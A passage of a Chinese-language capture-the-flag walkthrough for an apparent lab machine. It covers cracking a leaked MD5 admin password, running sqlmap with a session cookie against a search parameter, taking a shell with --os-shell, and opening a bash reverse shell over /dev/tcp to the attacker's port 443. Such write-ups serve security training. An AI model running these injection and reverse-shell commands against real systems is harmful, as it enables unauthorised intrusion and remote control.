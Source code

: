 黄色的数字就是密码，解压后有两个文件，分别是index.php和style.css

查看index.php，发现里面有密码的MD5值

![image-20221129203105914](assets/image-20221129203105914.png)



```
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

```

放网站里解密后是`qwerty789`

浏览器访问网站，用admin和qwerty789登录，然后进入主页，发现右上角的搜索框输入1后能看到url添加了个参数search=1

怀疑存在SQL注入，使用SQLmap

![image-20221129204123638](assets/image-20221129204123638.png)

由于是登录后的界面所以需要正确cookies，否则无法访问。	

执行命令`sqlmap -u http://10.129.230.148/dashboard.php?search=any+query' --cookie="PHPSESSID=73kd3gsc38mlg4ao96cevc20ob"`发现是存在SQL注入的

之后将后面的参数加上 `--os-shell`

![image-20221129210226511](assets/image-20221129210226511.png)

成功获取到shell，但是获得的shell是非交互式的，这里采用反弹shell的方式获得一个交互式shell

为了使shell更加稳定和可交互，在本地开启监听服务



![image-20221129210644451](assets/image-20221129210644451.png)

原shell执行：`bash -c “bash -i >& /dev/tcp/{your_IP}/443 0>&1”`
